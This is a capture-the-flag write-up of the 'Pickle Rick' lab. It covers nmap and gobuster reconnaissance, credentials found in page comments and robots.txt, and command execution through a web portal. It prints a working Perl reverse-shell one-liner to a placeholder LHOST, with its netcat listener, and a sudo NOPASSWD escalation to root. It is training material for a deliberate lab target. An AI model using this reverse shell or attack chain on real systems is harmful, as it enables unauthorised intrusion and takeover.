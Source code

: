 [![Needed-nmap](https://img.shields.io/badge/Needed-nmap-blue)](https://nmap.org/)
[![Needed-Gobuster](https://img.shields.io/badge/Needed-Gobuster-orange)](https://github.com/OJ/gobuster)

# Pickle Rick
*"This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle."*

## Reconnaissance
We start by scanning Rick's computer with nmap in order to identify running services:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali]
└─$ sudo nmap -sC -sV 10.10.245.227 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-18 17:12 CET
Nmap scan report for 10.10.245.227
Host is up (0.060s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3a:a1:8b:57:19:c7:40:19:7a:02:a0:38:4c:76:d7:f2 (RSA)
|   256 5c:ca:53:51:41:cb:f4:29:16:20:6a:a3:12:8a:4e:aa (ECDSA)
|_  256 46:e3:3b:91:14:33:45:75:74:32:5a:05:3e:a8:c1:c9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

SSH port at the moment is useless, so we start by scanning port 80, which runs a http server which gives us a html index page.<br>
Looking closer we notice a comment in the code that gives us a username:
```html
<!-- 
    Note to self, remember username!
    Username: R1ckRul3s
-->
```

Unfortunately we don't know yet where to use it

## Enumeration
Since we have a username, probably there will be some hidden login page leading to a hidden reserved page. To discover these endpoints we use gobuster dir search trying most common web file extension:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali]
└─$ gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://10.10.245.227 -x php,sh,py,txt,cgi,html,css,js
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.245.227
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,cgi,html,css,js,php,sh,py
[+] Timeout:                 10s
===============================================================
2022/03/18 17:15:10 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882] 
/assets               (Status: 301) [Size: 315] [--> http://10.10.245.227/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]                    
/robots.txt           (Status: 200) [Size: 17]
...
```

Now we have a login page (`login.php`), a reserved page (`portal.php`) and a `robots.txt` file which contains the word `Wubbalubbadubdub`. May it be a present exagerately nice? Yes! It is the password.<br>
Now we can login and try to get the ingredients

## Exploitation
Unfortunately hereon the flags can all be taken with the same exploit... As soon as we enter we have a remote command execution tool.

![The portal command execution](./portal.png "The portal command execution tool")

Testing it we discover the first ingredient in the current directory using `ls`, but we notice that `cat` command is blacklisted.<br>
Unfortunately blacklist is a bitch: as soon as I get frustrated for the missing cat command I try a reverse shell and I get remote code execution :)
```perl
perl -e 'use Socket;$i="LHOST";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```
┌──(marco㉿DellMarco)-[/mnt/f/kali]
└─$ nc -lnvp 4242     
listening on [any] 4242 ...
connect to [10.18.20.168] from (UNKNOWN) [10.10.245.227] 34620
/bin/sh: 0: can't access tty; job control turned off
$
```

From here we can find the first ingredient in the current directory, the second in `/home/rick/secret\ ingredients` and the third in `/root/3rd.txt`.<br>
How to get the last? We haven't root privileges... Wrong! These are sudo privileges:
```
User www-data may run the following commands on ip-10-10-233-44.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

This means we can execute command `sudo su` and go get the third ingredient